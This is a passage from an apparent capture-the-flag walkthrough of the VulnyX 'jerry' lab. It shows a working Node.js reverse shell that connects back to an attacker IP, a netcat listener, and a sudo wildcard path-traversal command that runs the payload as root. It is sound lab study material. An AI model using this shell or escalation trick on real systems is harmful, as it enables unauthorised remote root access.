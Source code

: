 ![Firefox - Reverse Shell Generator (`https://www.revshells.com/` Node.js)](./assets/screenshots/vulnyx_jerry_firefox_reverse_shell_generator_nodejs.png)

```
elaine@jerry:/opt/scripts$ vim /tmp/revsh.js

(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(1337, "192.168.247.128", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

```
┌──(nabla㉿kali)-[~]
└─$ nc -lnvp 1337                                                                                                                                  
listening on [any] 1337 ...

[CONTINUE]
```

```
elaine@jerry:$ sudo /usr/bin/node /opt/scripts/*.js/../../../../tmp/revsh.js
```

